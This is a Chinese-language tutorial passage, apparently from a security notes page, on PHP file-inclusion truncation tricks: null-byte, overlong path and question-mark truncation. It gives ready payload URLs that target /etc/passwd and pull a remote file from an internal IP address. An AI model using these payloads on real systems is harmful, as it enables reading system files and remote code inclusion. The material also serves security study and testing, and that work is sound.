




## 1、00截断法

00字符截断(php<5.3.4)(需要 magic_quotes_gpc=off)

/etc/passwd

/etc/passwd%00

```http
http://include.moonteam.com/file02.php?file=x.jpg%00
```

 

## 2、超长文件截断

(php版本小于5.2.8 可以成功，linux需要文件名长于4096，windows需要长于256)

利用操作系统对目录最大长度限制。
在window下256字节
linux下4096字节

截断的字符有.和/.

```http
http://include.moonteam.com/file02.php?file=x.jpg..........................................................................................................................................................................................................................................
```

 

```http
http://include.moonteam.com/file02.php?file=x.jpg%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e%2f%2e
```

 

## 3、问号截断

适用于远程截断。

php>=5.3
allow_url_fopen = On
allow_url_include = On

http://www.webtester.com/include/file02.php?file=http://192.168.31.125/x.txt?

 